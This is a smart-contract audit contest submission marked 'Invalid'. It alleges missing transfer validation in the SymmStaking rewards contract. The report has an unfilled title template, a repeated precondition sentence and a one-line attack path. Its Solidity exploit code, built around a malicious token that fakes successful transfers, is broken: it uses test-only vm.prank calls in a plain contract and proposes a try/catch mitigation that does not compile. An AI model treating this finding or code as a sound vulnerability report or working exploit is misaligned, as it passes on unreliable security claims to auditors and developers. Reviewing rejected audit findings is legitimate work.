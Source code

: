 Real Oily Locust

Invalid

# {actor} will {impact} {affected party}

### Summary

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L343-L346

### Root Cause

No Validation For Token Transfers


### Internal Pre-conditions

When claiming rewards or withdrawing tokens, there's no verification that the contract has sufficient token balance. 

### External Pre-conditions

When claiming rewards or withdrawing tokens, there's no verification that the contract has sufficient token balance. 

### Attack Path

Malitious attacker can manipulate the system

### Impact

This could lead to users not getting paid or not receiving their tokens

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "./SymmStaking.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// Malicious token that fails silently on transfers
contract MaliciousRewardToken is ERC20 {
    bool public failTransfers = false;
    
    constructor() ERC20("Malicious Token", "MAL") {
        _mint(msg.sender, 1000000 * 10**18);
    }
    
    function toggleFailTransfers() external {
        failTransfers = !failTransfers;
    }
    
    function transfer(address to, uint256 amount) public override returns (bool) {
        if (failTransfers) {
            // Do nothing but return true, simulating a successful transfer
            return true;
        }
        return super.transfer(to, amount);
    }
    
    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        if (failTransfers) {
            // Do nothing but return true, simulating a successful transfer
            return true;
        }
        return super.transferFrom(from, to, amount);
    }
}

contract ExploitTransferValidation {
    SymmStaking public symmStaking;
    MaliciousRewardToken public malToken;
    address public admin;
    address public user;
    
    constructor(address _symmStaking, address _admin, address _user) {
        symmStaking = SymmStaking(_symmStaking);
        admin = _admin;
        user = _user;
        
        // Deploy malicious token
        malToken = new MaliciousRewardToken();
    }
    
    function setupAttack() external {
        // 1. Whitelist the malicious token
        vm.prank(admin);
        symmStaking.configureRewardToken(address(malToken), true);
        
        // 2. Notify rewards with malicious token
        malToken.approve(address(symmStaking), 10000 * 10**18);
        
        address[] memory tokens = new address[](1);
        tokens[0] = address(malToken);
        
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 10000 * 10**18;
        
        symmStaking.notifyRewardAmount(tokens, amounts);
        
        // 3. User stakes and earns rewards
        // ... (simplified for brevity)
    }
    
    function executeAttack() external {
        // 4. Enable transfer failure
        malToken.toggleFailTransfers();
        
        // 5. User tries to claim rewards
        vm.prank(user);
        symmStaking.claimRewards();
        
        // Result: rewards[user][malToken] is set to 0, but user received no tokens
        // If other reward tokens exist, they might be stuck because claiming all rewards
        // might revert if one token fails
    }
}

// Mitigation: Use try/catch around token transfers and handle failures appropriately
// try IERC20(token).safeTransfer(user, reward) {
//     // Success, update state
// } catch {
//     // Handle failure, don't update state
// }

### Mitigation

The adequate checks to check the balance should be put in place 